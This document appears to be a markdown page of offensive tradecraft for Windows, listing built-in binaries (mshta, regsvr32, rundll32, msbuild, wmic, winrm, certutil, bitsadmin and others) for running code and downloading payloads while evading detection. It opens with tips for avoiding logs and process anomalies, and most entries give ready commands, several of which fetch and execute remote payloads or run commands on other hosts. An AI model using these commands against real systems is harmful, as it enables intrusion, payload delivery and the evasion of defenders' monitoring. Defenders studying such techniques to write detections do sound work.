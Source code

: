 
As an attacker often your aim is to execute code on a target system while simultaneously avoiding detection. 
Luckily Windows provides many built in tools to help you execute code while leaving very little evidence behind. 

A list of ways to execute code, including examples, are shown below. Note that UAC bypasses and DLL hijacking will not be included as these are covered elsewhere.

#### General tips:

To remain hidden ideally you want to:

- Avoid creating new processes/network connections
- Avoid creating anomalous parent/child relationships
- Avoid creating/modifying files/registry entries
- Avoid creating memory anomalies
- Avoid leaving evidence in log files

If you are going to drop files, then drop utilities to help run code as opposed to dropping the payload itself.

#### References:

Microsoft command line reference:
https://technet.microsoft.com/en-us/library/cc772390(v=ws.11).aspx

UAC Bypasses:
https://github.com/hfiref0x/UACME


### Code Execution Techniques:

- appsyncvpublishing.exe
  - Description: This utility supports the ability to execute powershell making it an excellent alternative to Powershell.exe.
  - Example: SyncAppvPublishingServer.exe "n;calc"

- control.exe
  - Description: The control panel feature within Windows supports the execution of arbitrary DLLs as demonstrated in the shadowbrokers release. (https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/)
  - Example: control.exe payload.dll

- csc.exe
  - Description: The .NET compiler can be used to compile a c# payload locally that can then be executed.
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:payload.exe payload.cs
  - Example payload.cs: public class x{public static void Main(){System.Diagnostics.Process.Start("calc");}}
  
- cscript.exe/wscript.exe
  - Description: Windows script engines that support both VBS and JScript execution. CScript is the console version, WScript is the Window version. Neither version supports scripts being supplied on the command line, instead a file must be created containing the script or a funky bat file wrapper.
  - Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")

- forfiles.exe
  - Description: Forfiles supports the ability to execute commands and seems to be equivalent to cmd.
  - Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

- msbuild.exe
  - Description - Microsoft's build utility where you can supply an inline build task to execute code (https://msdn.microsoft.com/en-us/library/dd722601.aspx)
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \\server\payload

- msiexec.exe
  - Description - The Windows installer typically used to install new software or patches. It be used to download and execute a remote payload.
  - Example: msiexec /i http://server/package.msi

- mshta.exe
  - Description: MSHTA can be used to execute HTA files (containing scripts) or directly execute VBScript/JScript from the command line.
  - Example: mshta bad.hta
  - Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  - Example: mshta javascript:alert('test');

- powershell.exe
  - Description: The most well known and most useful attacker utility. Powershell can be operated in console mode, with commands provided on the command line or through passing a ps1 file containing commands.
  - Example: powershell -c calc
  - Example: powershell -exec bypass -File test.ps1
  
- regsvr32.exe
  - Description: Command-line tool that registers dll files as command components in the registry. Notable for its use to bypass UAC and useful as it supports remote DLL retrieval.
  - Example: regsvr32 /s /n /u /i:[URL] scrobj.dll

- rundll32.exe
  - Description: Loads and runs DLLs. Three parameters are typically used, the DLL to be executed, the function within the DLL to call and any arguments.
  - Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  - Example: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

- winrm.exe
  - Description: WinRM, or Windows Remote Management provides the ability to remotely execute wmi commands. The winrm service is disabled by default but can be enabled.
  - Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}

- wmic.exe
  - Description: Command line tool for WMI.
  - Example: wmic process call create "cmd.exe /c calc"
  - Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"


### Download Techniques:

- certutil.exe
  - Description: Allows you to download a payload.
  - Example: certutil -ping [URL]
  - Example: certutil -urlcache -split -f [URL] [output-file]
  
- bitsadmin.exe
  - Description: Allows you to download a payload.
  - Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
